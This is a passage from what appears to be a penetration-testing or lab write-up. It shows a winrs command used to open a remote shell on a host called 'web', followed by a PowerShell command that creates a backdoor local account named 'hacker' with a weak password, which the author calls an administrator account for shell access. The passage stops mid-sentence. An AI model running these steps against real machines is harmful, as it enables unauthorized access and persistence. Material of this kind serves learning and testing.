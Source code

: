 <figure><img src="../.gitbook/assets/Pasted image 20240321113451.png" alt=""><figcaption></figcaption></figure>

Now i can access to web with the command

```powershell
winrs -r:web cmd
```

and add a new administrator user to the machine to get a nice shell

{% code overflow="wrap" %}
```powershell
New-LocalUser -Name "hacker" -Password (ConvertTo-SecureString "hacker" -AsPlainText -Force)
```
{% endcode %}

And now i can access with the command
